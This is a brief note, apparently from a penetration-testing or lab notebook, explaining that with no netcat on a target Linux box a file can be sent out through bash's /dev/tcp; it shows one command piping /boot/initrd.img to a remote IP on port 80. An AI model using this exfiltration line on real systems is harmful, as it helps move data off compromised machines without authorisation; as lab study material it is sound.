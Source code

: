 # linux

no nc on the box but we can use tcp file to transfer

```
cat /boot/initrd.img-4.9.0-8-amd64 > /dev/tcp/10.10.14.16/80
```
